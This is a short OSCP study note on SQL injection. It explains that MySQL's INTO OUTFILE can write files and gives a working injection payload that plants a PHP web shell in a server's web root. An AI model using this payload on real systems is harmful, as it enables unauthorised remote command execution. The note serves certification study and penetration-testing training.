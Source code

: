 ```yaml
---
aliases:
  - SQL Injection
tags:
  - tech
  - cybsec
  - offensive_security
  - offsec
  - oscp
  - web_application
  - web_app
  - sql_injection
  - sqli
author: Mehdi N Tehrani
creat_date: 2023-12-26
category: Cyber Security
subcategory: Offensive Security - OSCP
---
```


# Code Execution
Use OUTFILE feature to write to a file
```
SELECT '' INTO OUTFILE <filepath>
```
example:
```sqli
' union select '<?php system($_GET["cmd"]); ?>',null,null,null into outfile "/var/www/html/tmp/shell.php" -- //
```

